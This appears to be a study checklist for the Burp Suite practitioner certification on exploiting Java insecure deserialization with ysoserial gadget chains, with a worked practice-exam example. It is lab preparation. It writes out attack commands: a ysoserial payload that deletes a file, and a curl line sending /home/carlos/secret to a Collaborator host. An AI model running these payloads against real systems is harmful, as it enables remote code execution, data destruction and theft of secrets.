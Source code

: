 - [ ] Look for cookies or header/body values that look long and semi-random. It's hard to explain but things like the below would be a good start ![[Technical/Web/Methodology/BSCP Security Testing Checklist/Images/Pasted image 20250928162846.png]]
- [ ] Send the value to **Decoder** and keep decoding it to you hit the serial value as shown below ![[Technical/Web/Methodology/BSCP Security Testing Checklist/Images/Pasted image 20250928163110.png]]
	- [ ] Send the request to Deserialisation scanner, then manually under exploitation try each collection with `CommonsCollections1 'dig BURP_COLLABORATOR_LINK'` until you get one. The list can be found at  https://github.com/frohoff/ysoserial?tab=readme-ov-file#usage trying all the payload values (also make sure the correct encoding/compress at the bottom)
	- [ ] If not pop open a WSL (Windows Subsystem for Linux) terminal and install openjdk 1.8.0.462, and run a command like `java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0` to remove the payload.
- [ ] Wrap your command in something like `CommonsCollections7 'curl https://burpcollab.oastify.net -d @/home/carlos/secret'`

## Example Issues

**Insecure Deserialization of CommonsCollections7 from Admin Prefs Cookie in Practice Exam 1**
- Started off looking up the cookie in decoder and found that if we URL Decoded > Base64 Decoded > GZip Decoded we ended up getting a java serial object.
- We sent this to Java Deserialization Scanner and we did a manual exploitation scan with DNS (vuln libraries)
- We did a `CommonsCollections7 'curl https://burpcollab.oastify.net -d @/home/carlos/secret'` on the exploitation tab of Java Deserialization Scanner to obtain the correct lookup in collaborator and exfiltrate the secret.
